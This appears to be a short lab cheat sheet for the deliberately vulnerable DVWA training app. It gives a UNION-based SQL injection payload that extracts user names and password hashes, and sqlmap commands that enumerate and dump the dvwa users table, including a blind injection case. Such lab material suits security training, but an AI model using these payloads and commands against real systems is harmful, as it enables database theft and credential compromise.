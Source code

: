 SQL
===

### SQL Injection

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

Paste a hash in your web browser, trying to decrypt it.

### sqlmap

[sqlmap](http://sqlmap.org/) is an open source penetration testing tool that
automates the process of detecting and exploiting SQL injection flaws and
taking over of database servers.

**Warning:** You might have to replace `localhost:8090` with something else,
depending on your setup.

#### Show Databases

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" --dbs
```

#### Show Tables

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa --tables
```

#### Show Columns

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa -T users --columns
```

#### Dump Data

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa -T users --dump
```

### Blind SQL Injection

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli_blind/?id=&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>"
```
